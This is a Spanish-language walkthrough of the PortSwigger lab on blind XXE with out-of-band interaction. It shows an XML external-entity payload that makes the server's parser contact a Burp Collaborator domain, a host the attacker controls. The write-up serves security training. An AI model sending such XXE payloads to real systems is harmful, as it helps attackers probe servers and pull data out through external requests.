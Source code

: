 ```yaml
---
title: "Blind XXE with out-of-band interaction"
description: "Laboratorio de Portswigger sobre XXE Injection"
date: 2024-11-27 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - XXE Injection
tags:
  - Portswigger Labs
  - XXE Injection
  - Blind XXE with out-of-band interaction
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio tiene una función llamada `Check stock` que analiza la `entrada` en `formato XML` y `devuelve` cualquier `valor inesperado` en la respuesta. Puedes `detectar` la vulnerabilidad `blind XXE` provocando `out-of-band interactions` con un `dominio externo`. Para resolver el laboratorio, debemos utilizar una `entidad externa` para hacer que el analizador XML realice una `búsqueda DNS` y una `solicitud HTTP` hacia `Burp Collaborator`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-3/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-3/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se está tramitando un `XML`

![](/assets/img/XXE-Injection-Lab-3/image_3.png)

Vamos a insertar un `DTD (Document Type Definition)` y a `comprobar` si es `vulnerable` a `XXE`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe "Doe"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y pulsamos en `Copy to clipboard`, este dominio obtenido lo vamos a usar para construir este `payload`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://7qyhremmrjqjtk32uztkk5jai1osci07.oastify.com"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y observamos que hemos `obtenido respuesta`

![](/assets/img/XXE-Injection-Lab-3/image_4.png)
